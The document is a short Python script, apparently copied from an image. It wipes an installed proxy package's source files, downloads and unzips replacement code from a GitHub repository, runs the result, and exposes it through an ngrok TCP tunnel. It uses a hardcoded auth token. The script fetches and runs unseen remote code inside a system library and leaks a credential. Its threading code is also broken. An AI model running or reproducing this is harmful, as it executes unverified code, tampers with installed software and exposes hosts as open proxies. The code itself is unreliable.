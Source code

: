 from time import *
import wget,os,threading
from pyngrok import ngrok
import threading
import subprocess

tokens=[
  "2KgS1r3Pj62U1G47JGwhBOAF0Ms_2duHZPczMqReqpYa3WBX5",
  "None"
]

os.chdir('/usr/local/lib/python3.10/dist-packages/pproxy')
for i in os.listdir():
  if '.py' in i:
    os.remove(i)
wget.download('https://github.com/GrimsGreen/code/raw/main/6qxu6o.zip')
os.popen('unzip 6qxu6o.zip').read()

def run_proxy():
  process = subprocess.run('pproxy', shell=True, check=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
  print("Output:", process.stdout.decode())
  print("Errors:", process.stderr.decode())
  
def ngrok_thread(token):
    for token in tokens:
      ngrok.set_auth_token(token)
      try:
        public_url = ngrok.connect("9090", "tcp")
        break
      except:
        pass
    print(" * ngrok tunnel \"{}\" -> \"http://127.0.0.1:{}/\"".format(public_url, 9090))
    return public_url
    
threading.Thread(target=run_proxy).start()
ngrok_thread = threading.Thread(target=ngrok_thread,args=['2KgS1r3Pj62U1G47JGwhBOAF0Ms_2duHZPczMqReqpYa3WBX5']).start()
ngrok_thread.join()


